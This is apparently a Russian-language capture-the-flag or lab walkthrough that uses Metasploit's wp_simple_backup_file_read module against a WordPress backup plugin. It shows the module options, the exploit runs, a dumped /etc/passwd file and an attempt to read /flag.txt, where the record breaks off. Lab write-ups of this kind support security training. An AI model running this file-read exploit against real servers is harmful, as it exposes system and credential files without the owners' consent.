 «Использовать 0», так как это наш единственный вариант, позволяющий нам «показать параметры».

![[Pasted image 20240804105337.png]]

Нам нужно установить RHOSTS и RPORT для целевого IP-адреса и порта. Затем «exploit» или «run» запускает сценарий:

![[Pasted image 20240804105407.png]]

```
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > exploit  
  
[+] File saved in: /home/user/.msf4/loot/20240804110339_default_94.237.59.63_simplebackup.tra_243639.txt  
[*] Scanned 1 of 1 hosts (100% complete)  
[*] Auxiliary module execution completed  
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > cat /home/irs/.msf4/loot/20240804110339_default_94.237.59.63_simplebackup.tra_243639.txt  
[*] exec: cat /home/irs/.msf4/loot/20240804110339_default_94.237.59.63_simplebackup.tra_243639.txt  
  
root:x:0:0:root:/root:/bin/bash  
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  
bin:x:2:2:bin:/bin:/usr/sbin/nologin  
sys:x:3:3:sys:/dev:/usr/sbin/nologin  
sync:x:4:65534:sync:/bin:/bin/sync  
games:x:5:60:games:/usr/games:/usr/sbin/nologin  
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin  
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin  
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin  
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin  
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin  
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin  
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin  
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin  
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin  
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin  
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin  
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin  
mysql:x:101:102:MySQL Server,,,:/nonexistent:/bin/false  
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin  
systemd-network:x:103:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin  
systemd-resolve:x:104:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin  
messagebus:x:105:107::/nonexistent:/usr/sbin/nologin  
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
```

Установить путь к файлу **/flag.txt** 

«run» перемещает его в мой каталог, чтобы я мог указать путь к файлу, в котором он был сохранен.

```
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set filepath /flag.txt  
filepath => /flag.txt  
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > exploit  
  
[+] File saved in: /home/irs/.msf4/loot/20240804110635_default_94.237.59.63_simplebackup.tra_606751.txt  
[*] Scanned 1 of 1 hosts (100% complete)  
[*] Auxiliary module execution completed  
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > cat /home/user/.msf4/loot/20240804110635_default_94.237.59.63_simplebackup.tra_606751.txt  
[*] exec: cat /home/irs/.msf4/loot/20240804110635_default_94.237.59.63_simplebackup.tra_606751.txt  
  
```